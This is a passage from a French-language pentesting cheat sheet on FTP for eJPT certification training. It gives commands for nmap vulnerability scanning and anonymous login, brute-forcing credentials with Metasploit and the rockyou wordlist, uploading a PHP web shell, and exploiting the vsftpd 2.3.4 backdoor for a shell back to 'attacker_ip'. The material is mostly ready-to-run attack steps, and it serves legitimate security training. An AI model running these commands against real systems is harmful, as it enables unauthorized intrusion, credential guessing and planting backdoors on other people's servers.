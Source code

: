 ### One-liner pour test rapide
```bash
# Test complet FTP
nmap -p21 -sV --script ftp-anon,ftp-vsftpd-backdoor,ftp-proftpd-backdoor,ftp-vuln-* target && echo -e "anonymous\nanonymous\nls\nquit" | timeout 10 ftp target
```

---

## 🎯 8. Cas d'usage spécifiques eJPT

### Scénario 1: Découverte FTP anonyme
```bash
# 1. Scanner avec Nmap
nmap -p21 --script ftp-anon target

# 2. Si anonyme autorisé, se connecter
ftp target
# anonymous / anonymous

# 3. Explorer et télécharger
ls -la
cd pub
get interesting_file.txt
```

### Scénario 2: FTP avec credentials faibles
```bash
# 1. Brute force avec Metasploit
use auxiliary/scanner/ftp/ftp_login
set RHOSTS target
set USER_FILE /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt
set PASS_FILE /usr/share/wordlists/rockyou.txt
set VERBOSE true
run

# 2. Si credentials trouvés, se connecter
ftp target
# user:password

# 3. Test d'upload (pour web shells)
put shell.php
```

### Scénario 3: Exploitation vsftpd backdoor
```bash
# 1. Détecter version
nmap -sV -p21 target

# 2. Test backdoor si vsftpd 2.3.4
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS target
set LHOST attacker_ip
exploit

# 3. Si shell obtenu
whoami
uname -a
```

---